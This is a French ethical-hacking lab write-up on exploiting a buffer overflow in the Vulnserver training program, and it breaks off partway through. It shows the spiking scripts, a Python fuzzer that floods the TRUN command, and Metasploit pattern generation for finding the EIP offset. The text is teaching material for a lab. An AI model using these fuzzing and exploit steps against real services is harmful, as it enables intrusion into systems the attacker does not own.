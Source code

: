 # TP Buffer Overflow Ethical Hacking

Dans ce TP, nous allons voir comment exploiter une faille de type buffer overflow pour prendre le contrôle d'un programme. Nous allons utiliser un programme vulnérable que nous allons exploiter pour exécuter du code arbitraire.

1. [Setup](#setup)
2. [Spiking (trouver la vulnérabilité)](#spiking)
3. [Fuzzing (créer un PoC)](#fuzzing)
4. [Chercher l'offset](#offset)
5. [Overwrite EIP](#eip)
6. [Trouver un espace mémoire exécutable](#memory)
7. [Shellcode](#shellcode)

## 1. Setup <a name="setup"></a>

On installe un certain nombre d'éléments sur la machine victime. 
Premièrement, Vulnserver, qu'on fera écouter sur le port 9999.  
[vulnserver](https://github.com/stephenbradshaw/vulnserver)  

Ensuite, on installe Immunity Debugger sur la machine attaquée.  
[Immunity Debugger](https://www.immunityinc.com/)

Cela fait, on démarre une kali sur laquelle tout se passera.

## 2. Spiking (trouver la vulnérabilité) <a name="spiking"></a>

On va commencer par chercher la vulnérablilité dans le programme. Pour cela, on va utiliser le script `generic_send_tcp` fourni dans kali.

```spk 
fichier stats.spk


s_readline();
s_string("STATS");
s_string_variable("0");
```

on envoie:

```bash
generic_send_tcp ip_windows 9999 stats.spk 0 0
```


![fuzzing avec STATS](assets/1.png)


On voit que le programme ne crash pas, essayons de modifier la commande.

```spk
fichier stats.spk

s_readline();
s_string("TRUN ");
s_string_variable("0");
```

```bash
generic_send_tcp ip_windows 9999 stats.spk 0 0
```

Parfait ! On s'aperçoit que le programme crashe. On a donc trouvé la vulnérabilité.

![Programme crash](assets/2.png)

## 3. Fuzzing (créer un PoC) <a name="fuzzing"></a>

On va donc exploiter la faille déterminée précédemment. On va commencer par créer un script qui nous permettra de déterminer à combien de bytes le fuzzing a crash.

```py

import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		
		payload = "TRUN /.:/" + buffer

		s.send((payload.encode()))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100

	except:
		print("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()

```

On lance le script et on attend que le programme crash.  
Ici, on voit que le programme crash à 2000 bytes.  

![Programme crash à 2000 bytes](assets/3.png)


On retourne sur notre machine victime et on lance vulnserver attaché à immunity debugger afin de déterminer l'offset pour voir où ça crashe.


![Immunity Debugger](assets/5.png) 

Pour nous, le programme crash à 2003 bytes et sur windows : [386F4337]. On va donc chercher l'offset en générant un pattern.


## 4. Chercher l'offset <a name="offset"></a>

on génère un pattern avec metasploit.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

On a trouvé que le programme crash à 2000, on met donc un peu plus (3000) pour être sûr.

voilà le résultat :

![Pattern](assets/4.png)

On va donc envoyer ce pattern au programme vulnérable.

```py
import sys, socket
from time import sleep

offset = NotreOffset

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.230.150',9999))
        payload = "TRUN /.:/" + offset
        s.send((payload.encode()))
        s.close()

except:
        print("Error connection to server")
        sys.exit()

```

On lance le script et on regarde où ça crash.


